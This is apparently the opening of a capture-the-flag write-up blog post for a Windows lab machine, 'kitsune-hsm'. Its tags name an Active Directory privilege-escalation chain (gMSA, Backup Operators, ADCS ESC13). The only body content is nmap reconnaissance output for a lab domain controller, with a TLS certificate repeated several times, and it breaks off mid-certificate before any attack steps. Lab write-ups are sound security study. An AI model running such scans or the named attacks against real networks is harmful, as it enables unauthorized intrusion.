






---
title: kitsune-hsm
published: 2026-10-25
publishedAt: 2026-10-25T12:00:40+08:00
description: 'Mac 玩不了 OP.Zero, 有点可惜'
image: ''
tags: [ad, windows, gmsa, backup_operator, sam, adcs, esc13, pwsafe, pscredential, smb]
category: 'HSM-writeup'
draft: false 
lang: ''
--- 

# Recon
```sh
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-10-25 04:07:17Z)
135/tcp  open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds? syn-ack ttl 126
464/tcp  open  kpasswd5?     syn-ack ttl 126
593/tcp  open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
3268/tcp open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server syn-ack ttl 126
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Issuer: commonName=DC01.kitsune.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-11T08:21:43
| Not valid after:  2027-04-12T08:21:43
| MD5:     b376 6ca1 5419 2d44 262e 0817 77ab 4bcf
| SHA-1:   0d55 4168 2732 d664 a4a3 77bd e2f6 fb9e 02bf dfae
| SHA-256: ea44 abd8 01e0 9f4b 3c37 fe15 2fca 4188 ce32 2f66 1f72 d496 8bb8 7b06 3aec 5ad4
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQcEuXaz55TpJPwdJF7VNVezANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwHhcNMjYxMDExMDgyMTQzWhcN
| MjcwNDEyMDgyMTQzWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDg8GD+hyjrayBuQ0Vi+r6z5sND
| 7NFz2Hu5vfx3jyxuSajWLNy/3dUdGt23sPM4tizM9rZxYWpoICozdDHubjpX//FM
| t2poj1DQgaTmHipdzLSADH0ox3jf+8hMYbR8vSF6IVyLuCwqEBh4UTg9bn8IKAAa
| JzZk50VaM8BWM5R4aUeH+ayUfH9zBax8QIpL+187irIMAIQPv+0W7UZUSs1wi6Fc
| 6bp2N194VEVmYJQ4McTZyeMQlza85pD+f3m0W0RCDq9CZFG/3jcfcM0T0hUcOnt3
